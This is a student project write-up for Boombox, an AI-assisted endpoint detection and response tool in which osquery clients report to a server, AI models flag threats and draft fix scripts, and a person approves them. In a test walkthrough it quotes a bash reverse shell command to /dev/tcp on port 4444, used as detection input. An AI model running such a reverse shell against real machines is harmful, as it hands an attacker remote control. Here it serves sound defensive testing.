





# Boombox: Project Write-up

CYBER 344 (Operating Systems), Fall 2026

Boombox is a proof-of-concept **AI-assisted EDR** (endpoint detection and response) tool.
Small clients on Linux and Windows machines collect information with osquery and send it to
a server. An AI classifier decides whether anything looks malicious, a second AI model
writes a script to fix it, a person reviews and approves the script on a web dashboard, and
the client then runs it.

This document covers what we built, how and why, what went wrong and how we fixed it, and
how to set it up yourself.

**Contents**
1. [What we built](#1-what-we-built)
2. [Team](#2-team)
3. [Steps we took](#3-steps-we-took)
4. [Design decisions](#4-design-decisions)
5. [Problems we hit and how we solved them](#5-problems-we-hit-and-how-we-solved-them)
6. [Setup and usage](#6-setup-and-usage)
7. [External tools and resources](#7-external-tools-and-resources)

---

## 1. What we built

### Architecture



The two APIs never call each other. They share the database: the client API writes fix
scripts as `pending_review`, the dashboard API marks them `approved` or `denied`, and the
client API hands approved ones to the client.

| Part | What it does | Folder |
|---|---|---|
| Linux client | Go program that runs osquery queries and approved bash scripts; systemd service | `client/linux` |
| Windows client | Go program that runs osquery queries and approved PowerShell scripts; Windows service via NSSM | `client/windows-client` |
| Client API | Python (FastAPI). Registers clients, hands out queries and approved scripts, receives results, runs the AI pipeline | `server/client-api` |
| Database | PostgreSQL tables shared by both APIs | `server/database` |
| Dashboard API | Go. Lists fix scripts and clients; approve, deny, edit; per-client queries | `server/dashboard-api` |
| Dashboard website | Vue. Review queue, backlog, analytics dashboard, clients page | `dashboard/` |
| Live demo | A victim container with a reverse shell and an attacker container | `demo/` |

### One attack, start to finish



### Inside the AI pipeline



### A fix script's life



While a fix is `pending_review` or `approved`, the same attack doesn't get another one. Once
it's denied or executed, anything still flagged gets a new fix on the next poll.

### Infrastructure



Each machine is a VM on a small Proxmox server, and the team reaches them over Tailscale.
The clients only make outgoing requests to the server, so they need no open ports.

---

## 2. Team

| Person | Role | Main work |
|---|---|---|
| Aidan McEwan | Database and API support | PostgreSQL schema and database functions; client ids as tokens (planned with Ethan); first remediations API; client registration and per-client queries in the Python API, and per-client queries and approve/deny in the Go dashboard API |
| Kade Onines | Linux client | Go client with registration, query and remediation loops, systemd service, logging; first task list |
| Andrew Sabolsky | Client API, and AI pipeline | Repository structure and docs, client API, Jev and OpenAI pipeline, grouping and filtering, automatic script checks, Docker Compose and nginx setup, live demo |
| Ethan Simon | Infrastructure | Proxmox VMs for the server and both clients, team network access, Docker restart policies, VM CPU fix |
| Mateo Vallejo | Windows client | Go client with registration, query and remediation polling, retries and backoff; NSSM service and install scripts |
| Xander Whitby | Dashboard | Go dashboard API; Vue website with review queue, backlog, analytics, clients page, script editing |

A more detailed breakdown is in [docs/README.md](README.md#who-did-what).

---

## 3. Steps we took

**1. Plan and split the work (September 23 – October 7).** We picked the AI-powered EDR
idea over a multi-site datacenter, sketched the data flow (client → decision model →
remediation model → database → dashboard → back to the client), and split the work: Linux
client, Windows client, AI models and API, database, dashboard, and infrastructure. On
October 7 Andrew set up the repository with a folder for each part, and Kade added the
first task list.

**2. Learn osquery and build the first client loop (October 10–15).** Kade built the first
osquery loop in Go, which became the Linux client.

**3. Build the parts in parallel (November 10–19).**
- **November 10:** Aidan committed the PostgreSQL schema, sample data, and a first
  remediations API in Python with its database functions.
- **November 11:** Aidan and Ethan planned client authentication: one unique id per client,
  used as its token.
- **November 12:** Kade added the query and remediation loops to the Linux client and set
  it up as a systemd service.
- **November 16–18:** Andrew built the client API and the AI pipeline. A larger first
  version (a message queue, heuristic fallbacks, a separate lab for scoring models) was cut
  down to a simple proof of concept: one FastAPI app, Jev for decisions, OpenAI for fixes,
  no fallbacks. He also gave the client developers a working endpoint to build against.
- **November 17:** Xander built the dashboard: a Go API, then the Vue website and its
  clients page.
- **November 18:** Mateo built the first Windows client.
- **November 19:** Aidan reworked the schema around clients (a `clients` table with a UUID
  `client_id`, and per-client queries) and added the matching routes to the Python API and
  to Xander's Go API. Kade connected the Linux client to the API.

**4. Merge everything into one system (November 19–20).** The parts had been built
separately and didn't fit together yet (see section 5). We picked one folder layout
(`server/client-api`, `server/dashboard-api`, `server/database`), moved Aidan's database
code into the client API, ran Xander's Go API side by side with it, and put everything in
one `compose.yaml`. Clients now register and use the UUID from Aidan's `clients` table.
Kade and Mateo (now in Go) updated their clients to register and use the new endpoints.

**5. Deploy to the team's servers (November 20–23).** Ethan set up the Proxmox VMs. We moved
the dashboard website to port 80 behind nginx, fixed a VM CPU setting that stopped the
website from building, and Ethan made every service restart automatically. Kade's and
Mateo's clients went live against the real server. Xander added each alert's client to the
dashboard and made fix scripts editable before approval (November 21), then removed
auto-approve so every fix needs a person (November 23).

**6. Test with a live attack and improve the AI (November 21–23).** We built a demo: a victim
container with a real (harmless) reverse shell, and an attacker container. Running it again
and again exposed problems: repeat fixes, scripts that half-worked, false alarms, Windows
scripts that would have closed the user's desktop. We fixed them one at a time (section 5).
By the end, the first fix closed the reverse shell in 3 out of 3 test runs.

**7. Present and document (November 23).** We presented Boombox in class with the live
demo, then cleaned up the repository and wrote this document.

---

## 4. Design decisions

| Decision | Why |
|---|---|
| **osquery for data collection** | It works on Linux and Windows with the same SQL-like queries (processes, network connections, cron jobs, scheduled tasks, startup programs), so both clients share one server-side list of queries. |
| **Clients poll the server** (instead of the server pushing to them) | Polling needs no open ports on the clients, works through NAT and firewalls, and is simple to build. The cost is a delay of up to one polling interval (10 seconds by default). |
| **Lightweight clients** | The clients only run queries, send rows, and run approved scripts. All the decisions happen on the server, so the clients stay small and the logic lives in one place. |
| **Clients run as root / SYSTEM** | osquery needs it to see every process and connection, and fixes need it to stop processes and remove persistence. That is also why every fix needs a person's approval. |
| **Queries are chosen by the server** | New queries are added in one place (`server/client-api/ingest/queries.py`, or per client from the dashboard) without updating any client. |
| **Two AI models: a fast classifier, then an LLM** | Jev checks every row of every poll, so it has to be fast and cheap. In our test today it answered in 0.1–0.3 seconds per request for a small fraction of a cent. OpenAI only runs when something is flagged, about once per attack. |
| **Jev for decisions** | Jev returns a label and a confidence instead of free text, which is what a yes/no decision needs. Asking for one choice per row tells us exactly which rows are bad. |
| **Context added to each row** | A row on its own (`bash -i`) says little. Adding its parent process and its network connections (`started by bash -c … /dev/tcp/…, connected to port 4444`) lets Jev judge it properly. |
| **A person approves every fix** | AI-written scripts run as root or SYSTEM. A mistake could take down a machine, so nothing runs without review. The reviewer can also edit the script first. |
| **One fix per attack** | One attack shows up as several rows (a loop, its shell, the shell's connection, child processes) on every poll. Findings are grouped by **process family**: follow each flagged process's flagged parents to the top of the attack. A family with an open fix doesn't get another. |
| **Never target unflagged parents** | The program that launched an attack (for example `explorer.exe` or `sshd`) must never be killed. Only the flagged processes and their children are targeted. |
| **Fix scripts are sent once** | A script is marked `executed` as it's handed to the client. This avoids running the same fix repeatedly and needs no "report result" endpoint. If the attack is still there, the next poll gets a new fix. |
| **Filter our own traffic in code, not in the prompt** | The Boombox client, osquery, connections to the server, closed connections and Tailscale are removed before Jev sees anything. Code is predictable; a prompt hint wasn't. |
| **Different tips for Linux and Windows** | bash and PowerShell have different pitfalls. Each request only gets the tips for its own OS, which keeps the prompt short. |
| **Automatic checks before review** | `bash -n`, ShellCheck, and our own checks catch common script mistakes. If any fail, the errors go back to OpenAI for one corrected try; anything left is shown to the reviewer as a warning. |
| **Low reasoning effort for OpenAI** | We tried high, medium and low. High took about 100 seconds and 11¢ per fix and wrote over-complicated scripts. Low takes 15–20 seconds and 2–3¢ and works just as well. |
| **The client id is the only authentication** | This is a proof of concept. Real authentication can be added in one place (`server/client-api/auth.py`). |
| **Two APIs, one database** | The client API (Python) and the dashboard API (Go) never call each other; they share PostgreSQL. Each team member could work on their part independently. |
| **Everything in Docker Compose** | One command starts the database, both APIs and the website, the same way on a laptop and on the server, and every service restarts automatically. |
| **The website is built and served by nginx** | A built site in its own container is simple and keeps working when the Go API restarts (see section 5). |
| **uv for Python packages** | `uv.lock` pins exact package versions, so everyone and the server get the same build. |

---

## 5. Problems we hit and how we solved them

**Parts built separately didn't fit together.**
The client API, the database API and the dashboard API were built in parallel against
different assumptions. Two APIs used port 8000, clients identified themselves in two ways,
and two copies of the remediations API existed. *Fix:* one folder layout, Aidan's database
code moved into the client API, Xander's Go API kept for the dashboard, the client API moved
to port 8080, and clients register once to get a database UUID.

**The API changed while the clients were being built.**
As the server was reorganized, endpoints moved and clients started registering. *Fix:* the
request formats are written down in `server/client-api/README.md`, and every endpoint can be
tried in the browser at `http://<server>:8080/docs`.

**The dashboard website stopped working when the Go API restarted.**
The website first ran Vite's development server inside the Go container's network so it
could reach `localhost:8000`. When the Go container restarted, the website was left on a
network that no longer existed, and port 80 went dead. *Fix:* build the website and serve it
from its own nginx container, which forwards `/api` to the Go API by name.

**The website wouldn't build on the server ("Illegal instruction").**
Vite 8 builds with a native program that needs modern CPU instructions (AVX2). The Proxmox VM
used the default virtual CPU, which hides them. *Fix:* in Proxmox, set the VM's processor
type to `host` and fully restart the VM.

**A new fix script on every poll.**
Clients send the same results every poll, so the same reverse shell got a new fix every few
seconds. Skipping rows that already had a fix wasn't enough: PIDs change, and Jev flags
different parts of the same attack on different polls. *Fix:* group findings by process
family, skip any family that already has an open fix, and also remember fixes that are still
being written. In today's test, sending the same results again logged "every finding already
has an open fix script, not making another".

**AI fix scripts that only half worked.** Running the demo repeatedly showed several mistakes:
- Killing a parent process, then checking "is the child's parent still X?". Linux moves
  orphaned children under PID 1, so the check failed and the child was never killed.
- Assigning to `PPID` or `UID`, which are read-only in bash, so the script stopped on the spot.
- Sending only SIGTERM. An interactive `bash -i` ignores SIGTERM, so the reverse shell survived.
- A final "is it gone?" check using `grep` on `ps` output, which found its own search command.
- The fix was written from a snapshot taken before the shell connected, so by the time a
  person approved it, new processes existed that weren't in the list.

*Fix:* give OpenAI the exact list of attack processes, tell it to kill every **current**
child at run time (`pkill -P`), to escalate to `kill -9`, and to use `pgrep -f` (which never
matches itself). The automatic checks now catch read-only variable assignments. After these
changes, the first fix closed the shell in 3 of 3 runs.

**False alarms.** Jev flagged the Boombox client's own connection to the server, closed
sockets with no process (`pid -1`), Tailscale, and the Boombox client and osquery themselves,
including the osquery service on Windows. *Fix:* `triage/scope.py` removes these before Jev
sees them, matching by process name and by the program's file name in the path or command
line. Some normal programs (VS Code, Copilot, a Windows Update task) are still sometimes
flagged as "suspicious" around 50% confidence; a person denies those on the dashboard.

**Windows fixes that would have closed the desktop.** In a test with made-up Windows data,
the first fix killed `explorer.exe`, because the process-family code had walked up from the
malware to the program that launched it. The script also used `$Pid` (read-only in
PowerShell), doubled backslashes inside single quotes, and `"$name:"` (a PowerShell syntax
error). *Fix:* the family walk stops at parents that weren't flagged, the prompt gets
Windows tips, and the automatic checks look for these PowerShell mistakes.

**More AI thinking made things worse.** "High" reasoning wrote 100-line scripts that read
`/proc` by hand and still failed. *Fix:* reasoning set to low, plus a "keep it short and
simple, use `pgrep`/`pkill`" rule.

**Smaller issues:** a container left over from an older compose file held port 8000 (fixed
with `docker compose up --remove-orphans`); iCloud created duplicate files like
`schema 2.sql` in the repository folder (deleted after checking they were identical); and
API keys belong only in the git-ignored `.env`, never in `.env.example`.

---

## 6. Setup and usage

### Requirements

- **Server:** a Linux machine (or a Mac for local testing) with Docker and Docker Compose. If
  it's a virtual machine, its CPU must support AVX2 (in Proxmox, set the processor type to `host`).
- **API keys:** a TypeSafe API key for Jev and an OpenAI API key.
- **Clients:** Linux or Windows machines with [osquery](https://osquery.io/) installed, and Go
  to build the clients.
- Network access from the clients to the server's port 8080 (we used Tailscale).

### Start the server

```bash
git clone https://github.com/arsabolsky/Boombox.git
cd Boombox
cp .env.example .env      # then edit .env: set TYPESAFE_API_KEY and OPENAI_API_KEY
docker compose up -d --build
```

This starts four containers:

| Service | URL | What it is |
|---|---|---|
| `dashboard` | http://localhost | The dashboard website |
| `client-api` | http://localhost:8080/docs | The client API, with interactive docs (Swagger) |
| `dashboard-api` | http://localhost:8000/health | The dashboard API |
| `database` | `localhost:5432` | PostgreSQL. The tables are created automatically the first time |

The database starts empty. To empty it again: `docker compose down -v`, then
`docker compose up -d`. Settings (all in `.env`):

| Setting | Default | Meaning |
|---|---|---|
| `TYPESAFE_API_KEY`, `OPENAI_API_KEY` | (none) | Required for checking results; without them `POST /api/v1/results` answers 503 |
| `JEV_MODEL` | `jev-latest` | Jev model version |
| `OPENAI_MODEL` | `gpt-5` | OpenAI model |
| `OPENAI_REASONING_EFFORT` | `low` | How hard OpenAI thinks: `minimal`, `low`, `medium`, `high` |
| `BOOMBOX_SERVER_ADDRESSES` | (none) | Other addresses clients use to reach the server, so their connections aren't flagged |

### Install the Linux client (Kade's)

```bash
cd client/linux
go build -o boombox-client .
cp .env.example .env      # set API_HOST to http://<server>:8080 and OS_VERSION
```

`QUERY_INTERVAL` in `.env` sets how often it polls (10 seconds). To run it as a service, use
`boombox-client.service`. Two things to know: the unit file expects the program at
`/user/sbin/boombox-client` (note "user", not "usr"; copy it there or change the path), and
the client reads `.env` from its working directory, which is `/` for systemd services (put
`.env` there, or add a `WorkingDirectory=` line to the unit). Then:

```bash
sudo cp boombox-client.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable --now boombox-client
```

### Install the Windows client (Mateo's)

Follow `client/windows-client/Windows-client-go/README.md`. In short, from an Administrator
PowerShell: run `install-dependencies.ps1` (Go and NSSM), build with
`go build -trimpath -ldflags="-s -w" -o BoomboxClient.exe .`, set `API_BASE_URL` in `.env` to
`http://<server>:8080/`, run `install-service.ps1`, then start the `BoomboxClient` service.

### Use it

1. Open the dashboard (`http://<server>`). Clients appear under **Clients** once they register.
2. When something suspicious happens on a client, a fix appears under **Review** within
   about a minute (in our test, about 20 seconds): severity, title, the AI's explanation,
   and the script.
3. Read it, edit it if needed (**Modify**), then **Approve & deploy** or **Deny**.
4. The client picks up approved fixes on its next poll and runs them.

To collect something new on every machine of an OS, add a query to
`server/client-api/ingest/queries.py` and run `docker compose up -d --build client-api`. To
give one client an extra query, use the dashboard API (`POST /api/v1/client-queries` with
`"enabled": true`, see `server/dashboard-api/README.md`).

### Try it without real clients

Open http://localhost:8080/docs and use "Try it out" on each endpoint, or with `curl`:

```bash
# Register, and save the client_id it prints
curl -s -X POST localhost:8080/api/v1/clients -H 'Content-Type: application/json' \
  -d '{"hostname": "test-box", "os": "linux", "os_version": "Ubuntu 24.04 LTS"}'

# The queries a client would run
curl -s localhost:8080/api/v1/poll/queries -H "X-Client-Id: <client_id>"

# Send results (format in server/client-api/README.md); a bad row gets a fix shortly after
curl -s -X POST localhost:8080/api/v1/results -H "X-Client-Id: <client_id>" \
  -H 'Content-Type: application/json' -d @results.json

# Approve the fix on the dashboard, then receive it as the client would (only once)
curl -s localhost:8080/api/v1/poll/remediations -H "X-Client-Id: <client_id>"
```

We ran exactly this flow on November 23 with a made-up reverse shell
(`bash -c bash -i >& /dev/tcp/10.0.0.66/4444 0>&1` and its child `bash -i`): Jev flagged the
shell, its child and its connection as malicious; GPT-5 wrote a "kill the reverse shell"
script in about 19 seconds; it passed the automatic checks; after approval the client
received it once, and a second poll returned an empty list.

### Run the live demo

See `demo/README.md`. In short: `cd demo && ./start.sh`, then `./victim-screen.sh` in one
terminal and `./attacker-listen.sh` in another. Paste the line from `funny-messages.txt` into
the attacker's shell, approve the fix on the dashboard, and watch the messages stop and the
attacker's connection close.

### API reference

- **Client API (port 8080):** `POST /api/v1/clients`, `GET /api/v1/poll/queries`,
  `POST /api/v1/results`, `GET /api/v1/poll/remediations`. Full formats in
  `server/client-api/README.md`, and live at http://localhost:8080/docs.
- **Dashboard API (port 8000):** `GET /health`, `GET /api/v1/endpoints`,
  `GET|POST /api/v1/remediations`, `GET /api/v1/remediations/{id}`,
  `POST /api/v1/remediations/{id}/approve|deny`, `PUT /api/v1/remediations/{id}/script`,
  `GET /api/v1/clients/{client_id}/queries`, `POST /api/v1/client-queries`,
  `PUT /api/v1/client-queries/{id}`. See `server/dashboard-api/README.md`.
- **Database tables:** `clients`, `events`, `remediations`, `client_queries`. See
  `server/database/README.md`.

---

## 7. External tools and resources

**Data collection and clients**
- osquery: https://osquery.io/ and https://osquery.readthedocs.io/ (table schema: https://osquery.io/schema/)
- Go: https://go.dev/
- godotenv (`.env` loading in Go): https://github.com/joho/godotenv
- systemd service units: https://www.freedesktop.org/software/systemd/man/latest/systemd.service.html
- NSSM, the Non-Sucking Service Manager (Windows services): https://nssm.cc/

**AI models**
- TypeSafe Jev API (decision model): https://docs.typesafe.ai/api
- OpenAI API, Responses API with structured outputs (remediation model, GPT-5): https://platform.openai.com/docs/api-reference/responses
- OpenAI Python SDK: https://github.com/openai/openai-python

**Server**
- FastAPI (client API): https://fastapi.tiangolo.com/
- Pydantic (request and response models): https://docs.pydantic.dev/
- HTTPX (calls to Jev): https://www.python-httpx.org/
- psycopg 3 (PostgreSQL from Python): https://www.psycopg.org/psycopg3/
- python-dotenv: https://github.com/theskumar/python-dotenv
- uv (Python packages and lock file): https://docs.astral.sh/uv/
- PostgreSQL: https://www.postgresql.org/docs/
- pgx (PostgreSQL from Go): https://github.com/jackc/pgx
- ShellCheck (bash script checks): https://www.shellcheck.net/

**Dashboard**
- Vue 3: https://vuejs.org/
- Vite: https://vite.dev/
- nginx: https://nginx.org/en/docs/

**Infrastructure**
- Docker and Docker Compose: https://docs.docker.com/compose/
- Proxmox VE (virtual machines; processor type settings): https://pve.proxmox.com/wiki/Qemu/KVM_Virtual_Machines
- Tailscale (network access between machines): https://tailscale.com/kb

**Demo**
- netcat (OpenBSD), cowsay and figlet, from the Ubuntu package archive: https://packages.ubuntu.com/

**Development assistance**
- Claude Code (Anthropic), an AI coding assistant, helped write and test code and
  documentation: https://www.anthropic.com/claude-code

**Diagrams**
- Mermaid (the diagrams in this document): https://mermaid.js.org/
